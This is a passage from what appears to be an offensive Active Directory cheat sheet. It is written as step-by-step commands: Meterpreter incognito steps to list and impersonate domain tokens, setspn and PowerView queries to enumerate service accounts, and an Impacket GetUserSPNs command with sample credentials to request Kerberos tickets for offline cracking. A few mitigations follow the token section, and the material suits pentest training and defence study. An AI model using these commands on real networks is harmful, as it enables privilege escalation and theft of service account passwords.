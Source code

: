 


assume we have a meterpreter shell on target(we can use psexec module to get meterpreter session)

1. now run

> load incognito

2. now run

> list_tokens -u

3.Now we choose any user whos token available and impersonate 

> impersonate_token domain\\username


Mitigations:

1. Domain admins only access domain controllers,limiting attackers attack surface

2. Limit Local Admin restriction

3. Local Admin passwords must be complex and not same across the network

 
 
## Kerbroasting

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts  tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. 


If we are on the target and need to find all the spn accounts

>  setspn -T offense -Q */*

or some powerview cmdlets

> Get-NetUser -SPN

Or to get info about service account of specific group

> Get-NetUser -SPN | ?{$_.memberof -match 'GroupName'}

> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

> get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}



- Using Impacket 

This can be done remotely but for this we need a remote connection as any user on the target system

controller.local is domain name , Machine1 is PC name and Password1 is a password

> sudo python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.172.234 -request
